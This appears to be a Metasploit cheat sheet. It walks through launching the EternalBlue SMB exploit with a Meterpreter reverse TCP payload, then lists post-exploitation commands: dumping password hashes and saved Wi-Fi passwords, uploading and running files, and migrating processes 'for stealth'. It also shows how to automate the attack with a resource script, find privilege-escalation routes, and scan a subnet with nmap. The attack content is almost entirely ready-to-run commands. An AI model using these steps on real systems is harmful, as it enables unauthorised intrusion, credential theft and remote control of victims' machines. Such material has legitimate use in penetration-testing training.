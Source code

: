
---

## 1. Before Getting Meterpreter Shell — Setup and Exploit Launch

```
# Start Metasploit Console
msfconsole

# Select the exploit module (example: EternalBlue SMB)
use exploit/windows/smb/ms17_010_eternalblue

# Set the target IP address
set RHOSTS 192.168.1.10

# Set your local IP for the reverse shell callback
set LHOST 192.168.1.5

# Choose a payload (64-bit Windows Meterpreter reverse TCP)
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Optionally set a port (default 4444)
set LPORT 4444

# Check exploit options
show options

# Launch the exploit
exploit
```

## 2. After Getting a Meterpreter Shell
```
# Meterpreter prompt appears:
meterpreter >

# Get system info
sysinfo

# Capture screenshot
screenshot

# Dump password hashes
hashdump

# Upload a file to target
upload /path/to/local/file.exe C:\\Windows\\Temp\\file.exe

# Execute a command on target shell
execute -f cmd.exe -c

# Dump saved Wi-Fi passwords (if admin)
run post/windows/gather/wifi_passwords

# Migrate to another process for stealth
ps       # list processes
migrate <pid> 

# Get a command shell
shell

# Background the session (return to msfconsole)
background
```

## 3. Automating Meterpreter with Resource Scripts

Save repeated commands in a `.rc` script:
```
# example.rc
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LPORT 4444
exploit
```

Run with:
```
msfconsole -r example.rc
```

If you already have a Meterpreter shell on the target system, you can use the

```
multi/recon/local_exploit_suggester
```

module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.

###  Target Network using Metasploit

We need to configure metasploit db

```
service postgresql start  
msfconsole  
db_status  
  
msfdb init  
  
service postgresql restart  

db_status
```

Here, we are scanning the whole subnet 10.10.1.0/24 for active hosts.

```
nmap -Pn -sS -A -oX Test 10.10.1.0/24  
  
db_import Test
```

Type **hosts** and hit Enter to view the list of active hosts along with their MAC addresses, OS names, etc. Type **services** or **db_services** and hit Enter to receive a list of the services running on the active hosts.
